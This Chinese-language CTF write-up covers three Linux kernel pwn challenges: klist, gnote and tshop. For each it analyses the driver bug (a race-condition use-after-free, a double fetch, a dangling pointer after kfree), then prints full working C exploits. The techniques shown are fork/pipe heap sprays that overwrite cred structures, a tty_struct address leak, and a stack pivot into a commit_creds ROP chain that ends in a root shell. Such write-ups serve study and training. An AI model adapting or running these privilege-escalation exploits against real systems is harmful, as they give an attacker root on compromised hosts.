




概述
这篇笔记主要记载了三道kernel pwn，其中klist和gnote参考了bsauce大佬发布在平凡路上的文章(十分感谢大佬的文章)，还有一道是2019 oppo ctf中没能做出来的tshop，现在看看相对来说还是比较简单的Orz。
bin文件
klist
klist漏洞分析
结构体的类型主要是下面两种。(content的大小是小于等于0x400的，这里为0x20是为了好理解)

对函数的逆向分析在list.i64
klist.ko模块中主要实现了open，ioctl，read和write函数，其中ioctl里面有四个函数可使用，select_item，add_item，remove_item，list_head。在open函数中，会分配一个data保存着被选中的item和一个data_lock，然后file结构体中保存着指向这块内存区域的指针。item结构体中有一个引用计数cnt，get函数的作用是原子的对cnt加一，put函数是原子的对cnt减一，当为0的时候调用kfree释放item。很容易发现在list_head函数中，对于list_lock锁的使用存在不规范，这就可以导致在调用put函数之前，如果另外一个线程调用add_item新增了一个item A，这样A就会被释放掉，当时list_head中依旧存在对其的引用，这就导致了UAF。
klist漏洞利用
存在UAF的洞主要有三种方法:
第一种：申请和cred大小为一样kmem_cache的chunk，然后不断fork构造堆喷，来使得uaf chunk被申请为cred，然后直接修改uid，gid达到提权。
第二种：利用uaf chunk来修改tty_struct结构体来泄露kernel地址和劫持程序的执行流程，然后再劫持栈指针来进行rop。
第三种：构造堆喷来修改chunk中有意义的字段来实现任意地址读写，来修改cred，modprobe_path，poweroff_cmd或者security_operations->task_prctl函数指针，VDSO等等来劫持程序的执行流程。
这里我们可以通过cat /proc/slabinfo | grep cred_jar来判断cred是否使用了独立的kmem_cache。
$ cat /proc/slabinfo | grep cred_jar
cred_jar 739 819 192 21 1 : tunables 0 0 0 : slabdata 39 39 0 如果使用了就不可以使用第一种方法。因为这里并没有给我们打开ptmx的权限，所以第二种方法也用不了，这样就只有第三种方法了，我们这里使用pipe管道发送消息来构造堆喷来覆盖UAF chunk的size字段，来实现在堆上的任意地址读写，但是由于我们只能从低地址往高地址读写，所以要想去写cred，得有cred结构体分配在uaf chunk的后面，所以这里使用了200次fork来消耗一个页，然后分配新的页。
接下来我们得确定pipe管道发送消息使用的kmem_cache的size大小，在函数alloc_pipe_info()中有这么一段代码
#define PIPE_DEF_BUFFERS 16
unsigned long pipe_bufs = PIPE_DEF_BUFFERS;
pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer), GFP_KERNEL_ACCOUNT);然后可以通过编译带有符号的源代码文件，在gdb vmlinux中，运行
$ print sizeof(struct pipe_buffer)
0x28这样0x28*16=0x280，我们就可以确定add_item时要分配的大小是多少了。
klist exp编写
我的exp也是参照了bsauce大佬的exp，为了更加方便理解，我在自己理解的基础上加了一些注释。难点就是在于要如何判断竞争成功。具体的分析请看注释。
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <stdint.h>
#include <string.h>
#include <pthread.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <errno.h>
#include <linux/fs.h>
#include <semaphore.h>
#include <sys/prctl.h>
#include <sys/timerfd.h>
#include <sys/reg.h>
#define errExit(msg) do { perror(msg); exit(EXIT_FAILURE);\
}while(0)
#define SIZE 0x280
typedef struct myargs{
uint64_t size;
uint64_t buf;
}myargs;
int fd; // klist fd
void hexdump(char *buf, uint64_t size)
{
for(int i=0; i<size; i+=0x10)
printf("+%x:0x%lx +%x:0x%lx\n", i, *(uint64_t*)(buf+i), i+8, *(uint64_t *)(buf+i+8));
}
int addItem(char *buf, uint64_t sz)
{
myargs temp;
temp.size = sz;
temp.buf = (uint64_t)buf;
return ioctl(fd, 0x1337, &temp);
}
int selectItem(uint64_t index)
{
return ioctl(fd, 0x1338, index);
}
int removeItem(uint64_t index)
{
return ioctl(fd, 0x1339, index);
}
int list_head(char *buf)
{
return ioctl(fd, 0x133a, (uint64_t)buf);
}
void checkwin()
{
while(1) {
sleep(1);
if (getuid() == 0){
system("cat /root/flag");
exit(0);
}
}
}
char buf0[SIZE];
char buf1[SIZE];
char buf2[SIZE];
char buf3[SIZE];
void myinit()
{
fd=open("/dev/klist", O_RDWR);
memset(buf0, 'A', SIZE);
memset(buf1, 'B', SIZE);
memset(buf2, 'C', SIZE);
memset(buf3, 'D', SIZE);
}
int main()
{
pid_t child_pid;
myinit();
addItem(buf0, SIZE-0x18); // 0
selectItem(0);
puts("race begin");
child_pid = fork();
if(child_pid == 0)
{
for (int i=0; i<200; i++)
{
child_pid = fork();
if (child_pid == 0)
checkwin();
}
while(1)
{
addItem(buf0, SIZE-0x18); // 1 子进程list_head与这里竞争，如果竞争成功，这里新增的item会被free掉，cnt为0, 如果竞争不成功，cnt为1
selectItem(0); // 如果竞争成功，选中UAF的item，cnt为1，如果竞争不成功cnt为2
removeItem(0); // 如果竞争成功，会使得UAF item又被free一次，cnt=0，如果竞争不成功，item不会被free，cnt为1，list_head变为next item
addItem(buf1, SIZE-0x18); // 2 如果竞争成功，UAF item被重新申请出来，被B填充，cnt=1，如果竞争失败，当前item为list head，被填充为B，cnt为1
read(fd, buf2, SIZE-0x18); // 如果竞争成功，当前1被选中，read之后B覆盖C，如果竞争不成功，A覆盖C。
if (buf2[0] == 'B') {
puts("race won!");
break;
}
removeItem(0); // 竞争失败，remove 2 item
}
// 删除并添加管道来占据首个item
sleep(1);
removeItem(0); // 竞争成功，此时的list_head为UAF item，cnt为1，又会被free一次，freelist里面存在两个引用
memset(buf3, 'E', SIZE);
int fds[2];
pipe(&fds[0]);
// 堆喷，使得uaf item 的size被覆盖，从而进行任意地址读写
for(int i=0; i<9; i++)
write(fds[1], buf3, SIZE);
uint32_t *ibuf = (uint32_t *)malloc(0x1000000);
read(fd, ibuf, 0x1000000); // 将后面堆上的内存全部read出来
uint64_t max_i = 0;
int count = 0;
for(int i=0; i<0x1000000/4; i++) // 寻找cred结构体并且更改
{
if (ibuf[i] == 1000 && ibuf[i+1] == 1000 && ibuf[i+7] == 1000)
{
puts("[*] we got cred!");
max_i = i+8;
for(int j=0; j<8; j++)
ibuf[i+j] = 0;
count++;
if(count >= 2)
break;
}
}
write(fd, ibuf, max_i*4); //将更改过后的内存重新写入堆内存中
checkwin(); // 有可能是当前的进程的cred被写入
}
else if (child_pid > 0)
{
while(1) {
if( list_head(buf3) )
puts("list head faild!");
read(fd, buf2, SIZE-0x18); // 如果竞争成功，被选中的item的content为B，竞争失败，item content为A
if(buf2[0] == 'B') {
puts("race won thread 2!");
break;
}
}
checkwin(); // 有可能是当前的进程cred被写入
}
else
{
errExit("[*] fork failed!");
return -1;
}
return 0;
}gnote
gnote漏洞分析

这道题来自2019 tokyo western CTF，是一道double fetch，实际上也是一种条件竞争，漏洞点出现在gnote_write中，对于指向用户内存区域的指针a2存在两次引用，第一次对其做检查是否大于5，第二次取值跳转的时候又进行了一次去内存操作，这样就能通过恶意的条件竞争来绕过第一次的检查，在第二次取值之前，更改内存a2地址的值，从而导致任意地址跳转，劫持程序执行流程。
漏洞利用
首先我们得泄露kernel的地址，我们可以通过open ptmx来获取一个tty_struct的chunk，然后close ptmx，接着马上使用gnote_write申请一块相同大小的chunk来获得tty_struct中地址，然后用gnote_read读出来，达到泄露kernel地址的目的。
然后通过run.sh可知这道题只开了smep，这意味着我们虽然不可以执行用户空间的代码，但是却可以访问用户空间的内存。可以构造出一块内存布满了我们要执行的gadget的值，这块内存的地址需要计算得出，因为模块加载的地址为0xffffffffc0000000，如果我们将*a2改为0x20000000，则实际上内存取值时，会去0xc0001098取值。
>>> hex(0x20000000*8 - 0x3fffef68)
'0xc0001098'这样我们就得提前在0xc0001098内存中部署好gadget的值，这里使用mmap在0xc0000000中直接分配了0x1000000大小的内存，不知道为什么要分配这么多，我试了试0x10000这些，发现kernel都会报BUG: unable to handle kernel paging request at xxxx的错误，估计是内核在对用户空间的内存寻址时，页表映射的问题。
到此我们已经可以成功的劫持程序的执行流程，但是只有一次机会，为了更进一步，我们得劫持rsp寄存器到用户空间来进行rop，所以刚刚喷射的gadget的值可以为 “xchg eax， esp” gadget的值，刚好rax的值为此时xchg eax，esp指令的地址，我们可以在double fetch之前，确定rax的值是什么，然后提前部署好rop链在对应的内存上。
gnote exp编写
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <stdint.h>
#include <string.h>
#include <pthread.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <errno.h>
#include <linux/fs.h>
#include <semaphore.h>
#include <sys/prctl.h>
#include <sys/timerfd.h>
#include <sys/reg.h>
#define errExit(msg) do { perror(msg); exit(EXIT_FAILURE);\
}while(0)
#define TRYTIMES 0x1000
#define GADGETPAGE 0xc0000000
int fd;
int finish=0;
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
__asm__("mov user_cs, cs;"
"mov user_ss, ss;"
"mov user_sp, rsp;"
"pushf;"
"pop user_rflags;"
);
puts("[*]status has been saved.");
}
void spawn_shell()
{
if(!getuid())
{
finish = 1;
system("/bin/sh");
}
else
{
puts("[*]spawn shell error!");
}
exit(0);
}
ssize_t gnote_write(void *buf)
{
return write(fd, (char *)buf, 0x100);
}
ssize_t gnote_read(void *buf, size_t count)
{
return read(fd, (char *)buf, count);
}
struct arg_in {
unsigned int cmd;
unsigned int num;
};
struct arg_in arg;
void *change_cmd(void *args)
{
while(finish == 0)
arg.cmd = 0x20000000;
puts("race won!");
return NULL;
}
void hexdump(char *buf, uint64_t size)
{
for(int i=0; i<size; i+=0x10)
printf("+%x:0x%lx +%x:0x%lx\n", i, *(uint64_t*)(buf+i), i+8, *(uint64_t *)(buf+i+8));
}
int main()
{
pthread_t th1;
uint64_t kbase;
uint64_t offset;
uint64_t xchg_eax_esp;
uint64_t pop_rdi_ret = 0xffffffff8101c20d;
uint64_t mov_cr4_rdi_pop_rbp_ret = 0xffffffff8103ef24;
uint64_t prepare_kernel_cred = 0xffffffff81069fe0;
uint64_t pop_rsi_ret = 0xffffffff81037799;
uint64_t mov_rdi_rax_pop_rbp_ret = 0xFFFFFFFF8121CA6A;
uint64_t commit_creds = 0xffffffff81069df0;
uint64_t swapgs_pop_ret = 0xffffffff8103efc4;
uint64_t popfq_ret = 0xffffffff810209f1;
uint64_t iretq_pop_ret = 0xffffffff8101dd06;
uint64_t swrr_r2u = 0xffffffff81600a4a;
int tfd;
char buf[0x1000];
struct arg_in temp;
save_status();
if ((fd=open("/proc/gnote", O_RDWR)) == -1)
errExit("open gnote");
if ((tfd=open("/dev/ptmx", O_RDWR)) == -1)
errExit("open ptmx");
uint64_t gadget = (uint64_t)mmap((void *)GADGETPAGE, 0x1000000, PROT_READ | PROT_WRITE,
MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
if (gadget != GADGETPAGE)
errExit("mmap gadget");
// 获得free后的tty_struct
temp.cmd = 1;
temp.num = 0x2e0;
close(tfd);
gnote_write(&temp);
// 选中
temp.cmd = 5;
temp.num = 0;
gnote_write(&temp);
// 提取地址
memset(buf, 0, sizeof(buf));
gnote_read(buf, 0x2e0);
kbase = *(uint64_t *)(buf + 0x2b0) - 0xffffffff812ac7d0 + 0xffffffff81000000;
offset = kbase - 0xffffffff81000000;
printf("[*] kernelbase: %lx\n", kbase);
xchg_eax_esp = kbase + 0x1992a;
// 部署rop
for(int i=0; i<0x1000000-0x8; i+=8)
*(uint64_t *)(gadget + i) = xchg_eax_esp;
uint64_t roppage = xchg_eax_esp & 0xffffffff;
uint64_t *rop = (uint64_t *)roppage;
roppage = roppage & 0xfffff000;
if((uint64_t)mmap((void*)roppage, 0x3000, PROT_READ | PROT_WRITE,
MAP_PRIVATE | MAP_ANONYMOUS, -1, 0) != roppage)
errExit("mmap roppage");
int i=0;
rop[i++] = pop_rdi_ret + offset;
rop[i++] = 0 ;
rop[i++] = prepare_kernel_cred + offset;
rop[i++] = pop_rsi_ret + offset;
rop[i++] = -1;
rop[i++] = mov_rdi_rax_pop_rbp_ret + offset;
rop[i++] = 0;
rop[i++] = commit_creds + offset;
//rop[i++] = swapgs_pop_ret + offset;
//rop[i++] = 0;
//rop[i++] = popfq_ret + offset;
//rop[i++] = 0;
//rop[i++] = iretq_pop_ret + offset;
rop[i++] = swrr_r2u + offset;
rop[i++] = 0;
rop[i++] = 0;
rop[i++] = (uint64_t)spawn_shell;
rop[i++] = user_cs;
rop[i++] = user_rflags;
rop[i++] = user_sp;
rop[i++] = user_ss;
// double fetch
arg.cmd = 2;
arg.num = 0xdeadbeaf;
pthread_create(&th1, NULL, &change_cmd, NULL);
for(int i=0; i<TRYTIMES && !finish; i++)
{
gnote_write(&arg);
arg.cmd = 2;
}
return 0;
}
gnote 总结
问题依然存在，就是在返回用户态的时候，如果使用传统的方法swapgs popfq iretq会失败，bsauce大佬也没能给出答案，不过倒是学习了一种新的方法，就是这个swapgs_restore_regs_and_return_to_usermode，这个函数的地址可以从/proc/kallsyms获得，但是我在源码里面竟然没有找到这个符号，很神奇Orz。
tshop
tshop 漏洞分析 && 漏洞利用
tshop这道题是去年oppo ctf没能做出来的一道题目，最近忽然想起找出来看了看，打算练练手，发现相对来说还是比较简单的。

驱动主要的实现是在tshop_ioctl函数中，tshop_init中是定义和初始化了对应的cdev结构体，然后还使用了kmem_cache_create创建了一个名为ZegeOrJige的kmem_cache，值得注意的是大小为0x98，而cred结构大小为0xa8，同属于kmalloc-192的区域内，而且通过cat /proc/slabinfo | grep cred_jar 发现没有cred_jar这个kmem_cache，所以可以通过上面说的第一种方法来直接修改cred结构体。
漏洞点是在tshop_ioctl中kfree之后，没有清空BUY_LIST的entry，导致可以UAF，但是很遗憾的是这里没有copy_from_user来对uaf的chunk进行写和读，只有两个*v12 = 0x123456789ABCDEF0LL; *v11 = 0xFEDCBA987654321LL; 实际上这两个东西是用来忽悠人的压根没什么用，仔细看add的时候，会对chunk进行一系列的初始化
v4 = (_QWORD *)kmem_cache_alloc(zegeorjige_kmem_cache, 0xD0LL);
BUY_LIST[v3] = (__int64)v4;
*v4 = 0LL;
v5 = zegeandjigedesc;
*(_QWORD *)(BUY_LIST[v3] + 8) = 0LL;
*(_QWORD *)(BUY_LIST[v3] + 0x10) = 0x40LL;
*(_QWORD *)(BUY_LIST[v3] + 0x18) = 0x29AALL;这个初始化的操作其实刚刚好可以帮我们修改cred的uid字段和gid字段，因此我们只需要先申请0x10个chunk，然后在del 0x10个chunk，接着使用200次fork的堆喷来获得刚刚被我们del 的chunk，随后我们再次del BUY_LIST上的10个chunk，再通过add将他们申请出来并且对其的内存做了更改，这就相当于对fork喷射出的cred结构体进行更改，从而达到提权的目的。
tshop exp编写
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <stdint.h>
#include <string.h>
#include <pthread.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <errno.h>
#include <linux/fs.h>
#include <semaphore.h>
#include <sys/prctl.h>
#include <sys/timerfd.h>
#include <sys/reg.h>
#define errExit(msg) do { perror(msg); exit(EXIT_FAILURE);\
}while(0)
int fd;
void getZege(uint32_t index)
{
ioctl(fd, 0x22B8, index);
}
void add(uint32_t index)
{
ioctl(fd, 0x271A, index);
}
void del(uint32_t index)
{
ioctl(fd, 0x2766, index);
}
void getJige(uint32_t index)
{
ioctl(fd, 0x1A0A, index);
}
void init()
{
if ((fd=open("/dev/tshop", O_RDWR)) == -1)
errExit("open tshop");
}
void checkwin()
{
while(1) {
sleep(1);
if (getuid() == 0){
puts("spaw root shell!");
system("cat /home/sunichi/flag");
exit(0);
}
}
}
int main()
{
pid_t child_pid;
init();
for(int i=0; i<0x10; i++)
add(i);
for(int i=0; i<0x10; i++)
del(i);
child_pid = fork();
if(child_pid)
{
for(int i=0; i<0x200; i++)
{
child_pid = fork();
if (child_pid == 0)
checkwin();
}
}
else if(child_pid == 0)
{
for(int i=0; i<0x10; i++)
{
del(i);
add(i);
}
}
else
errExit("fork error!");
return 0;
}
tshop 总结
成功的几率还是很高的。
